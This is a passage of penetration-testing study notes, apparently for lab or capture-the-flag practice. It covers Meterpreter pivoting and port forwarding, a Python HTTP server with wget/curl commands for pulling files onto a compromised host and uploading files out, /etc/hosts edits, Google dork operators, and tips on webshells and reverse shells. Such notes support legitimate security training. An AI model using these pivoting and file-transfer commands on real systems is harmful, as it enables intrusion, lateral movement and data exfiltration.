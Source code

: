     meterpreter> run autoroute -h
    meterpreter> run autoroute -p #show active route table
    
    meterpreter> run autoroute -s <subnet>
    or
    msf> route add 192.69.228.0 255.255.255.0 <session id>
    
    msf> route print #check IPv4 Routing Table

Afterwards we can use modules to further explore the victim:

    use scanner/portscan/tcp

Or even use Port Forwarding to forward our requests to the new target:

    meterpreter> portfwd -h
    #THIS OPENS UP PORT <LOCAL PORT> ON THE ORIGINAL MACHINE AND NOT ON THE FIRST TARGET MACHINE
    meterpreter> portfwd add -l <local port> -p <target port> -r <target ip>
    nmap -sV 127.0.0.1 -p <local port defined above> 

## Transfer Files

Simple HTTP Server Python

```
Start a local webserver
cd <directory of file we need to transfer>
python3 -m http.server 8000

Transfer file on remote host (command is executed on the remote host)
wget http://<ip>:<port>/<file_to_transfer>
curl http://<ip>:<port>/<file_to_transfer> -o <new_file_name>
curl http://<ip>:<port> --upload-file <file_name>
```



## Adding Virtual Hosts

In the black box practice labs, we had to add a virtual host to /etc/hosts in order to connect to the webpage.

```
$ sudo vim /etc/hosts
<IP addr>	static.foobar.org
```



## Google Dorks

- site:
- intitle:
- inurl:
- filetype:
- AND, OR, &, |
- -

## Misc

-   Found a webshell/admin panel on a site?
-   Run phpinfo(); to determine if it is a PHP shell
-   Try to get a reverse shell connection
-   Check for flag in the user's home directory
-   Enumerate, enumerate, enumerate

